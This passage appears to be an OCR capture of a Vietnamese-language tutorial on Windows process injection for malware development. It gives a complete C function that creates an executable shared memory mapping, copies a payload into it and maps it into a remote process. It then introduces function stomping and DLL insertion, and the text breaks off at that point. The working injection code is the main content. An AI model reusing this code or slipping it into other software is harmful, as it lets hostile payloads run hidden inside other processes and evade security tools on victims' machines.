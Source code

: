 #### **Remote Mapping Injection**

Đối với việc tiêm từ xa, quá trình tương tự, nhưng bạn sẽ ánh xạ bộ nhớ vào không gian địa chỉ của remote process.

```c
BOOL RemoteMapInject(IN HANDLE hProcess, IN PBYTE pPayload, IN SIZE_T sPayloadSize, OUT PVOID* ppAddress) {
    BOOL bSTATE = TRUE;
    HANDLE hFile = NULL;
    PVOID pMapLocalAddress = NULL, pMapRemoteAddress = NULL;

    // Tạo file mapping
    hFile = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, sPayloadSize, NULL);
    if (hFile == NULL) {
        printf("[!] CreateFileMapping Failed With Error : %d \n", GetLastError());
        bSTATE = FALSE; goto _EndOfFunction;
    }

    // Ánh xạ bộ nhớ cục bộ và sao chép payload
    pMapLocalAddress = MapViewOfFile(hFile, FILE_MAP_WRITE, NULL, NULL, sPayloadSize);
    if (pMapLocalAddress == NULL) {
        printf("[!] MapViewOfFile Failed With Error : %d \n", GetLastError());
        bSTATE = FALSE; goto _EndOfFunction;
    }
    memcpy(pMapLocalAddress, pPayload, sPayloadSize);

    // Ánh xạ payload vào không gian địa chỉ của tiến trình từ xa
    pMapRemoteAddress = MapViewOfFile2(hFile, hProcess, NULL, NULL, NULL, NULL, PAGE_EXECUTE_READWRITE);
    if (pMapRemoteAddress == NULL) {
        printf("[!] MapViewOfFile2 Failed With Error : %d \n", GetLastError());
        bSTATE = FALSE; goto _EndOfFunction;
    }

    printf("[+] Remote Mapping Address : 0x%p \n", pMapRemoteAddress);

_EndOfFunction:
    *ppAddress = pMapRemoteAddress;
    if (hFile)
        CloseHandle(hFile);
    return bSTATE;
}
```
### **Function Stomping Injection**

Function stomping là một kỹ thuật trong đó bộ nhớ của một hàm hoặc cấu trúc dữ liệu bị ghi đè bằng dữ liệu mới. Kỹ thuật này có thể được sử dụng để tiêm payload vào một tiến trình bằng cách trực tiếp thay đổi các địa chỉ hàm.

#### **Chèn DLL vào Binary**
